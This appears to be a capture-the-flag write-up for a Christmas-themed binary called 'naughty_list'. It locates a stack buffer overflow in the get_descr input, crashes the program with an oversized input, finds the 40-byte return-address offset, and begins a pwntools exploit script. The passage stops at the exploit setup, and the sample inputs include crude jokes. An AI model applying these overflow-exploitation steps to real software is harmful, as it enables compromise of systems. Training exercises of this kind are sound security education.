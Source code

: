 First thing i will do is find the vulnerable point in the program, i suggest you open the binary in ghidra for that, or you can go in fully 1337 mode and use only gdb. (disassemblers exist for a good reason tho).

Looking at the main function we can see 4 different functions that asks for our input.
![Potentially Vulnerable Functions](https://i.imgur.com/cgUkVpv.png)

Looking deeper into each of these functions we notice that the functions `get_name, get_surname, get_age`. However we do not have any restrictions on our last function `get_descr`.
![No Restrictions on get\_descr input](https://i.imgur.com/GRBbFVq.png)

We can also see in the screenshot that we read `0x3c0 bytes (960)` of input inside a buffer of `32 bytes` which is clearly vulnerable to a buffer overflow.

We can try to make our binary `SEGFAULT` by running it and sending a little more than ~32 bytes of input, let's try this in practice
```
$ ./naughty_list

~ Ho Ho Ho Santa is here ~

       _______________
    0==( Naughty List (c==0
       '______________'|
         | Name        |
         | Gift        |
       __)_____________|
   0==(               (c==0
       '--------------'

[*] Enter your name    (letters only): penis
[*] Enter your surname (letters only): penis
[*] Enter your age (18-120): 69
[+] Name:    [PENIS]
[+] Surname: [PENIS]
[+] Age:     [69]

[*] Name of the gift you want and why you were good enough to deserve it: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[*] 🎅 will take a better look and hopefuly you will get your 🎁!
[1]    3876 segmentation fault (core dumped)  ./naughty_list
```

Running a cyclic string with our binary in gdb reveals that we overwrite our return address after `40 bytes of input`. We can start writing our exploit the following way.
```py
import pwn

e = pwn.ELF("./naughty_list")
libc = pwn.ELF("libc.so.6")
io = pwn.process(e.path)
pwn.context.arch = "amd64"
PADDING = 40
```
